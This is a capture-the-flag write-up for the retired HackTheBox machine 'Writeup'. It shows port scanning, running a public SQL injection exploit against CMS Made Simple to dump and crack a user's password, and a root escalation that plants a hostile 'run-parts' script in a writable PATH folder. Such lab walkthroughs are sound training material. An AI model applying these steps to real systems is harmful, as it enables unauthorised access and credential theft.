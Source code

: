 Title:HTB: Writeup
Date: 10-12-2019 21:52
category:security
tags:security, boot2root, HTB, exploit, linux
meta:security, boot2root, HTB, exploit, linux

<img class="align-left" src="/media/2019.10/writeup_card.png" alt="Writeup Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Writeup](https://www.hackthebox.eu/home/machines/profile/192).
(*Yes the machine name is writeup, searching a writeup for writeup will be a
funny thing.*).
The machine is classed as an easy one. It involves vulnerability in a known CMS
as well as "PATH vulnerability" for the privilege escalation.

<!-- PELICAN_END_SUMMARY -->

[TOC]

# Recon

First of all we start by scanning the machine's open ports with nmap. Only port
22 (SSH) and 80 (HTTP) are open:

    :::text
    # Nmap 7.80 scan initiated Sun Sep 22 16:08:28 2019 as: nmap -oA nmap -sSV 10.10.10.138
    Nmap scan report for 10.10.10.138
    Host is up (0.089s latency).
    Not shown: 998 filtered ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Sep 22 16:08:43 2019 -- 1 IP address (1 host up) scanned in 15.20 seconds

# Web, getting user

The homepage of this website is ugly and say that there is nothing there yet.
We take a look to `robots.txt`:

    :::text
    #              __
    #      _(\    |@@|
    #     (__/\__ \--/ __
    #        \___|----|  |   __
    #            \ }{ /\ )_ / _\
    #            /\__/\ \__O (__
    #           (--/\--)    \__/
    #           _)(  )(_
    #          `---''---`

    # Disallow access to the blog until content is finished.
    User-agent: * 
    Disallow: /writeup/

Let's take a look at `/writeup/`! We have there another website. When looking at
the page source code we notice the use of "CMS Made Simple" a CMS with a few
vulnerabilities.

    :::html
    <!doctype html>
    <html lang="en_US"><head>
      <title>Home - writeup</title>

    <base href="http://10.10.10.138/writeup/" />
    <meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />

Let's search for exploits, a few of them are available:

    :::text
    # searchsploit 'made simple'
    -------------------------------------------------------------------------------------- ----------------------------------
     Exploit Title                                                                        |  Path
                                                                                          | (/usr/share/exploitdb/)
    -------------------------------------------------------------------------------------- ----------------------------------
    CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)    | exploits/php/remote/46627.rb
    CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                               | exploits/php/webapps/26217.html
    CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                               | exploits/php/webapps/26298.txt
    CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                            | exploits/php/webapps/29272.txt
    CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                                | exploits/php/webapps/29941.txt
    CMS Made Simple 1.11.10 - Multiple Cross-Site Scripting Vulnerabilities               | exploits/php/webapps/32668.txt
    CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                     | exploits/php/webapps/43889.txt
    CMS Made Simple 1.2 - Remote Code Execution                                           | exploits/php/webapps/4442.txt
    CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                                  | exploits/php/webapps/4810.txt
    CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                      | exploits/php/webapps/5600.php
    CMS Made Simple 1.4.1 - Local File Inclusion                                          | exploits/php/webapps/7285.txt
    CMS Made Simple 1.6.2 - Local File Disclosure                                         | exploits/php/webapps/9407.txt
    CMS Made Simple 1.6.6 - Local File Inclusion / Cross-Site Scripting                   | exploits/php/webapps/33643.txt
    CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/11424.txt
    CMS Made Simple 1.7 - Cross-Site Request Forgery                                      | exploits/php/webapps/12009.html
    CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                         | exploits/php/webapps/34299.py
    CMS Made Simple 1.x - Cross-Site Scripting / Cross-Site Request Forgery               | exploits/php/webapps/34068.html
    CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                      | exploits/php/webapps/41997.txt
    CMS Made Simple 2.1.6 - Remote Code Execution                                         | exploits/php/webapps/44192.txt
    CMS Made Simple 2.2.5 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/44976.py
    CMS Made Simple 2.2.7 - (Authenticated) Remote Code Execution                         | exploits/php/webapps/45793.py
    CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                       | exploits/php/webapps/39760.txt
    CMS Made Simple < 2.2.10 - SQL Injection                                              | exploits/php/webapps/46635.py
    CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                      | exploits/php/webapps/34300.py
    CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload                 | exploits/php/webapps/34298.py
    CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload        | exploits/php/webapps/46546.py
    -------------------------------------------------------------------------------------- ----------------------------------
    Shellcodes: No Result

As we are not authenticated, The one that interest us is "CMS Made Simple <
2.2.10 - SQL Injection (exploits/php/webapps/46635.py). We run the exploit
(admire the beauty of the display). We then get a username, an email, a password
salt and a password hash.

    :::text
    python 46635.py -u http://10.10.10.138/writeup
    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7

The exploit also allow to crack the password using a dictionary. We run
"rockyou" against it and found jkr password.

    :::text
    # python 46635.py --crack -w ./rockyou.txt -u http://10.10.10.138/writeup
    [+] Salt for password found: 5a599ef579066807
    [+] Username found: jkr
    [+] Email found: jkr@writeup.htb
    [+] Password found: 62def4866937f08cc13bab43bb14e6f7
    [+] Password cracked: raykayjay9

With this password we are able to connect to the box using SSH and get the user
password:

    :::text
    # ssh jkr@10.10.10.138
    jkr@10.10.10.138's password: 
    Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

    The programs included with the Devuan GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Sep 22 12:31:00 2019 from 10.10.14.237
    jkr@writeup:~$ cat user.txt 
    d4e493<redacted>

# Root

We enumerate the box without a lot of success. A quick read of the box forum
recommend to run [pspy](https://github.com/DominicBreuker/pspy) on the box. We
discover that a script is run every time an user connect with SSH.

    :::text
    2019/09/25 07:39:49 CMD: UID=0    PID=4352   | sshd: [accepted]
    2019/09/25 07:39:49 CMD: UID=0    PID=4353   | sshd: [accepted]  
    2019/09/25 07:40:01 CMD: UID=0    PID=4354   | sshd: jkr [priv]  
    2019/09/25 07:40:01 CMD: UID=0    PID=4355   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
    2019/09/25 07:40:01 CMD: UID=0    PID=4356   | run-parts --lsbsysinit /etc/update-motd.d 

The PATH is fixed by the command line and there is no `run-parts` binary in the
first folder `/usr/local/sbin`. Moreover this folder is writable. Therefore
we write a simple file `/usr/local/sbin/run-parts` and give it the execution
permission:

    :::text
    jkr@writeup:~$ vim /usr/local/sbin/run-parts
    #!/bin/bash
    cat /root/root.txt > /tmp/lool/b
    rm /tmp/lool/b

    jkr@writeup:~$ chmod +x /usr/local/sbin/run-parts

We create a directory in `/tmp/` and write the `b` file. At the same time be
connect by SSH with the jkr user. We get the root flag

    :::text
    jkr@writeup:~$ mkdir /tmp/lool/
    jkr@writeup:~$ echo a > /tmp/lool/b
    jkr@writeup:~$ tail -f /tmp/lool/b
    a
    tail: /tmp/lool/b: file truncated
    eeba4<redacted>

# Wrapping up

The user step implied only to use a know exploit without any change. The
privilege escalation was really interesting as I didn't use
[pspy](https://github.com/DominicBreuker/pspy) before.

